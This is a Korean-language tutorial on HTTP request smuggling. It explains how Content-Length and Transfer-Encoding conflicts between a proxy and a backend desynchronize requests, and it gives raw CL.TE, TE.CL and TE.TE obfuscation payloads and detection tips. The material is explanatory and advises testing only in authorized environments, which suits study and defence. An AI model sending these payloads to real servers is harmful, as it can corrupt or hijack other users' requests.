

> 프록시와 백엔드가 "이 요청이 어디서 끝나는가"를 다르게 판단하면, 공격자가 보낸 요청의 뒷부분이 다른 사용자의 요청 앞에 붙는다. 이것이 HTTP 요청 스머글링이다.

## 개념

HTTP/1.1은 하나의 TCP 연결에 여러 요청을 이어 보낸다(keep-alive). 본문 길이를 알리는 방법은 두 가지다.

- **Content-Length (CL)**: 본문 바이트 수를 숫자로 적는다.
- **Transfer-Encoding: chunked (TE)**: `크기(16진수)\r\n데이터\r\n`를 반복하고 크기 `0`인 덩어리로 끝낸다.

둘이 함께 오면 RFC는 TE 우선·모호 요청 거부를 규정하지만, 실제 구현들이 규칙을 항상 같게 지키지는 않는다. 프록시는 CL로, 백엔드는 TE로 읽으면 같은 바이트 스트림이 서로 다른 요청 개수로 해석된다.



성립 조건은 두 가지다. ① 프록시-백엔드 간 **연결 재사용**, ② 두 쪽의 **요청 경계 해석 차이**. 응답 헤더(`Server`, `Via`, `X-Cache`)로 프록시 계층이 있는지부터 확인한다.

## 공격·우회 구문

운영 트래픽에 섞일 수 있으므로 **허가된 테스트 환경**에서만, 공유 트래픽이 없는 조건으로 한다.

### CL.TE — 프론트 CL, 백엔드 TE

프론트는 `Content-Length`만큼을 본문으로 보고 통째로 전달하고, 백엔드는 `0` 덩어리에서 끝났다고 보아 남은 바이트를 다음 요청으로 대기시킨다.

```
POST / HTTP/1.1
Host: example.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

### TE.CL — 프론트 TE, 백엔드 CL

프론트는 chunked로 읽고, 백엔드는 `Content-Length`만큼만 읽어 나머지를 다음 요청 앞에 남긴다.

```
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


```

### TE.TE — 헤더 표기 변형으로 한쪽만 무시

양쪽 다 TE를 지원할 때, `Transfer-Encoding` 값·헤더명을 변형해 한쪽만 인식하게 만든다.

```
Transfer-Encoding: chunked
Transfer-Encoding : chunked        # 헤더명 뒤 공백
Transfer-Encoding: xchunked
Transfer-Encoding:[tab]chunked
Transfer-Encoding: chunked
Transfer-Encoding: identity        # 중복 헤더
```

### 확인 요령

```
# 시간 지연: 본문을 일부러 모자라게 보내 한쪽이 나머지를 기다리면 응답이 수 초 멈춤
# 차이 응답: 밀수 조각을 존재하지 않는 경로로 두고, 바로 이어 보낸 내 두 번째 요청이 404 등 엉뚱한 응답을 받는지
```

HTTP/2를 받더라도 백엔드로 HTTP/1.1로 다시 쓰는 구간(다운그레이드)에서 `content-length`·`transfer-encoding`이 남으면 같은 desync가 되살아난다.

## 참고 자료

- [RFC 9112: HTTP/1.1 — Message Body Length](https://www.rfc-editor.org/rfc/rfc9112.html#section-6.3)
- [RFC 9113: HTTP/2](https://www.rfc-editor.org/info/rfc9113/)
- [CWE-444: Inconsistent Interpretation of HTTP Requests](https://cwe.mitre.org/data/definitions/444.html)
